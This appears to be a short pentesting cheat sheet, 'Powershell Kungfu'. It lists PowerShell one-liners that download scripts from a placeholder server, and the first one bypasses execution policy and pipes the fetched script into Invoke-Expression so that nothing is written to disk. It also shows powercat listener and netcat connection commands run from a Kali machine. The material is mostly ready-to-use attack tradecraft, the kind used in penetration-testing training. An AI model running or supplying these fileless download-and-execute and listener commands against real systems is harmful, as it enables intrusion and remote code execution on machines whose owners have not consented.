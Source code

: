 # Powershell Kungfu

## Powershell Download

There is nothing on disk in this option

```text
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://server/file.ps1')|iex"
```

PowerShell one liner download \(any version\)

```text
(New-Object System.Net.WebClient).DownloadFile("http://server/file.ps1", "file.ps1")  
```

PowerShell one liner download \(4.0 & 5.0\)

```text
Invoke-WebRequest "http://server/file.ps1" -OutFile "file.ps1"  
```

## Powercat

Download script from here : [https://github.com/besimorhino/powercat/blob/master/powercat.ps1](https://github.com/besimorhino/powercat/blob/master/powercat.ps1)

import and start listener

```text
PS C:\Users\testuser\Desktop\share> . .\powercat.ps1
PS C:\Users\testuser\Desktop\share> powercat -l -p 4444
i connected from kali
```

connect from another device

```text
┌──(kali㉿kali)-[~/Desktop]
└─$ nc 192.168.200.112 4444                                    
i connected from kali
```

